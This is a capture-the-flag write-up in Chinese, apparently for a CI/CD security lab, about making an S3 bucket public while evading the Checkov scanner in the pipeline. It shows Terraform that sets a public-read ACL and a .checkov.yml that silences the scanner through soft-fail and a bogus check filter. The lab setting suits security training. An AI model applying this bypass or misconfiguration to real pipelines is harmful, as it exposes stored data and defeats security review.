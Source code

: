 #### [Dodo](#toc_dodo)

> 每个人都赢了，每个人都必须有奖品！*Dodo*管道正在扫描您。您的任务是让 S3 存储桶公开可读而不会被发现。完成后，在作业的控制台输出中收集您的奖品。  
> 两个提示：  
> 1\. 阅读 Checkov，它是一种防止您弄得一团糟的扫描仪。  
> 2\. 阅读恶意代码分析Reference\[3\]。  
> 在管道中引入了SAST静态扫描工具checkov：[https://github.com/bridgecrewio/checkov](https://github.com/bridgecrewio/checkov)  
> 在提示2中的文章，介绍了checkov工具会读取仓库中的.checkov.yml配置文件作为checkov运行的配置，因此可以在仓库中劫持checkov的配置。  
> 首先设置main.tf的ACL为public-read

```plain
resource "aws_s3_bucket" "dodo" {
  bucket        = var.bucket_name
  acl           = "public-read"     //更改ACL设置
  versioning {
    enabled = true
  }
  replication_configuration {
    role = aws_iam_role.replication.arn
    rules {
      id     = "foobar"
      status = "Enabled"
      destination {
        bucket        = aws_s3_bucket.backup.arn
        storage_class = "STANDARD"
      }
    }
  }
}
```

之后创建.checkov.yml，并输入以下内容

```plain
soft-fail: true
check:
  - THIS_NOT_THE_CHECK_YOUR_ARE_LOOKING_FOR
```

[![1656907693465.png](assets/1702372834-7ba470a1c481f11f77dd4335c2335b37.png)](https://storage.tttang.com/media/attachment/2022/07/06/3d17c714-c346-41b9-833e-508bba97e400.png)  
我这里因为环境问题，一直卡在下载安装hashicorp/aws组件上，但是可以看到checkov检查是绕过了的。
